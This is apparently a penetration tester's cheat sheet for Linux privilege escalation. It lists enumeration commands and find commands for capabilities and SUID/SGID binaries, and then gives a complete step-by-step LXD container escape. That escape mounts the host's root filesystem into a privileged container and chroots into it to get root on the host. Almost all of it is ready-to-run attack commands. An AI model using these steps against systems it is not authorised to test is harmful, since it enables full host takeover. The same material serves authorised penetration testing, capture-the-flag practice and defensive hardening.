 - `whoami` - what user are we running as
- `id` - what groups does our user belong to?
- `hostname` - what is the server named, can we gather anything from the naming convention?
- `ifconfig` or `ip a` - what subnet did we land in, does the host have additional NICs in other subnets?
- `sudo -l` - can our user run anything with sudo (as another user as root) without needing a password? This can sometimes be the easiest win and we can do something like `sudo su` and drop right into a root shell.
#### "File magic"
Capabilities : 
```shell
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

Sudo perms abuse :
```shell
sudo -l
```

SETUID bit set : (run as user who created the file)
```shell
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

SETGID bit set : (run as group that created the file)
```shell
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```
>> GTFOBins

#### LXD container escape (root on host)
Check if you're in the **lxd group** (you can create/manage containers):
```shell
id
```

Import Alpine image:
```shell
lxc image import ./alpine-*.tar.gz --alias alp-pwn
```


Create a privileged container:
```shell
lxc init alp-pwn privesc -c security.privileged=true
```

Mount host filesystem to container:
```shell
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Start the container:
```shell
lxc start privesc
```

Get shell inside container:
```shell
lxc exec privesc /bin/ash
```

Chroot into host root:
```shell
chroot /mnt/root
```

You’re now root on host.

Notes:
- `security.privileged=true` gives container near-root capabilities on host
- `recursive=true` lets you mount the full `/`
- Use `ash` not `bash` (Alpine thing)
- If `chroot` fails: look for SUID binaries or drop a root shell

